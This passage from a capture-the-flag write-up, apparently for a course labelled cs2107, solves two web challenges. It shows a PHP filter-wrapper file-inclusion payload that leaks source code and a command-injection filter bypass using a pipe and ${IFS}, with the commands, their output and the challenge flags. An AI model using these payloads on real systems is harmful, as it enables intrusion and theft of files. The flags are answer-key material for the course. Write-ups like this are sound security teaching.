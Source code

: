 ![C4.png](C4.png)

### C.5 Local Host Is Safer Than Web (11 Points)

Simply having the parameter be `f=flag.php` loads the site in HTML, so maybe getting the file's source code could help. [This site shows using php filters](https://book.hacktricks.xyz/pentesting-web/file-inclusion#wrapper-php-filter) so that it won't load the actual site but instead the source code in base64. So we can visit with the parameter `f=php://filter/convert.base64-encode/resource=flag.php`. In `Flags_ Not on localhost.html`, we can convert the base64 easily using CyberChef to obtain the source code, and subsequently the flag. At the top of the file, we have the following.

```php
<?php
// Ah man! You found it! It was indeed here.
// Here you go
// cs2107{1_a1nt_u2ing_php_4ga1n}
?>
```


### C.6 Web Tools (12 Points)

This is command line injection, but some characters like `;` and spaces are stripped. Fortunately, `|` still works, and we can use `${IFS}` for space as seen on [StackExchange](https://unix.stackexchange.com/a/351509). We use `ls` first to see the files available, then `cat` the appropriate file.

```bash
$ ping -c1 |ls
ping: usage error: Destination address required
requirements.txt
service.py
templates
the_flag_is_in_here.txt
$ ping -c1 |cat${IFS}the_flag_is_in_here.txt
cs2107{05_c0mm4nd_1nj3c710n_15_d4n63r0u5_50_b3_c4r3ful_y0}ping: usage error: Destination address required
```
